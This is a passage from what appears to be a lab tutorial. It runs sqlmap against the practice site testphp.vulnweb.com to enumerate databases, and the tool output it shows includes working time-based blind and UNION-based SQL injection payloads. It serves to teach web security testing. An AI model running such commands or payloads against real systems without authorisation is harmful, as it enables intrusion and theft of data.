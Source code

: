    => There's `time-based blind` sqli detected in the system

2. Proceed to find the database name once it is determined that the target has sqli vulnerability

   ```shell
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs
   ```

   `--dbs`: enumerate DBMS database

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs
           ___
          __H__
    ___ ___[.]_____ ___ ___  {1.7.2#stable}
   |_ -| . [']     | .'| . |
   |___|_  [,]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:02:21 /2023-04-20/

   [05:02:21] [INFO] resuming back-end DBMS 'mysql'
   [05:02:24] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:02:24] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:02:24] [INFO] fetching database names
   available databases [2]:
   [*] acuart
   [*] information_schema

   [05:02:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:02:24 /2023-04-20/
   ```
